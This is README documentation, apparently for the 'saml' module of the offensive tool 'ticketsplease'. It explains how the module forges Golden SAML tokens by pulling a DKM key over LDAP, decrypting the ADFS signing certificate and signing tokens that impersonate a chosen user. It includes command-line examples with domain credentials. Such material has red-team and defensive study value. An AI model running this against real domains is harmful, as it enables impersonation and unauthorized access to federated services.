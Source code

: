 # saml Module

This module will generate a Golden SAML token using the EncryptedPfx extracted from an ADFS configuration and the DKM key pulled from a domain.

> This module requires the ADFS configuration settings, which can be pulled via the `adfs` module.

## How it Works

| Step | Process |
| ---  | ---     |
| 1    | Using LDAP, query the Domain Controller for the target user's (we are impersonating) UPN (userPrincipalName) and GUID (objectGuid) (if not provided). |
| 2    | Using LDAP, query the Domain Controller for the DKM (Distributed Key Manager) key (if not provided). |
| 3    | Decrypt the EncryptedPfx extracted from the ADFS configuration by deriving the keys from the DKM. |
| 4    | Generate and sign a Golden SAML ticket using the DecryptedPfx and the target user's UPN and GUID. |

## Usage

This module can be used via the command line or it can be imported as a module into your Python code base.

```
usage: ticketsplease saml [-h] [--adfs-config ADFS_CONFIG] [--adfs-config-file ADFS_CONFIG_FILE]
                          [--domain DOMAIN] [--target-user TARGET_USER] [--target-user-upn TARGET_USER_UPN]
                          [--target-user-guid TARGET_USER_GUID] [--dkm-key DKM_KEY]
                          [--assertion] [--debug] [--domain-username DOMAIN_USERNAME]
                          [--domain-password DOMAIN_PASSWORD] [--dc-ip DC_IP]

Generate a Golden SAML token

optional arguments:
  -h, --help            show this help message and exit

  --adfs-config ADFS_CONFIG
                        ADFS configuration settings.

  --adfs-config-file ADFS_CONFIG_FILE
                        File containing the ADFS configuration settings.

  --domain DOMAIN       Target domain the Golden SAML token is generated for (i.e. company.com).

  --target-user TARGET_USER
                        Username of the account to generate the Golden SAML token for.

  --target-user-upn TARGET_USER_UPN
                        UPN of the account to generate the Golden SAML token for (if not provided,
                        retrieved via LDAP).

  --target-user-guid TARGET_USER_GUID
                        GUID of the account to generate the Golden SAML token for (if not provided,
                        retrieved via LDAP).

  --dkm-key DKM_KEY     DKM Key (if not provided, retrieved via LDAP).

  --assertion           Extract the SAML Assertion from the token.

  --debug               Enable debugging.

ldap/wmic arguments:
  --domain-username DOMAIN_USERNAME
                        Username to perform DCSync operations with.

  --domain-password DOMAIN_PASSWORD
                        Password of the account to perform DCSync operations with.

  --dc-ip DC_IP         IP address of the target Domain Controller.

example usage:

    ticketsplease saml --adfs-config '...' --target-user-guid '...' --dkm-key '...' --assertion

    ticketsplease saml --adfs-config-file config.bin --domain company.com --target-user tUser \
                       --domain-username user --domain-password password --dc-ip 10.10.10.10
```

## Arguments - Use Cases

In order to generate a Golden SAML token, several pieces of information are required: target user GUID, DKM key, and ADFS configuration. If the target user GUID or the DKM key are not provided, the data will be retrieved via LDAP.

1. If no target user GUID or DKM key are provided:
```
--adfs-config-file <> --domain <> --target-user <> --domain-username <> --domain-password <> --dc-ip <>
```

2. If the required data can be provided, domain credentials are not required:
```
--adfs-config <> --target-user-guid <> --dkm-key <> --assertion
```

## Importing the Module

```python
from ticketsplease.modules.saml import generate_golden_saml

# This method will piece together all of the module handlers
# to generate a Golden SAML token (retrieve the required data,
# decrypt the EncryptedPfx, create and sign a SAML token)
golden_saml = generate_golden_saml(
    adfs_config,
    adfs_config_file,
    domain,
    target_user,
    target_user_upn,
    target_user_guid,
    domain_username,
    domain_password,
    dc_ip,
    dkm_key,
    assertion,
)
```

## Module Handlers

### wmic.py

This will leverage the provided username and password/password hash to retrieve a given service account's username via WMI (default is the ADFS service account).

### utils.py

Helper functions to extract the SAML Assertion.

### ADFSpoof.py

Modified version of [FireEye's ADFSpoof](https://github.com/fireeye/ADFSpoof) to generate a Golden SAML token with the DKM key and EncryptedPfx.
